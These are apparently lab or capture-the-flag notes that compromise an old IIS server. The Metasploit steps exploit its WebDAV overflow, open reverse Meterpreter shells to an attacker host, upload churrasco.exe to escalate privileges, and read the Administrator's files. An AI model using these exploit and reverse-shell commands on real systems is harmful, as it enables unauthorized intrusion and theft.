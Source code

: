 use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST 10.10.10.14
set LHOST 10.10.15.128
exploit

---
# meterpreter 0:
> cd /WINDOWS/TEMP
> upload churrasco.exe

$ msf-mpc Windows 10.10.15.102 1443
$ msfconsole -r windows-meterpreter-staged-reverse-tcp-17433-exe.rc 
# gives meterpreter 1

# meterpreter 0:
> chorrasco.exe payload

# meterpreter 1:
> sessions -i 1
# just open the files at C:\Documents and Settings\Administrator
# and Harrys

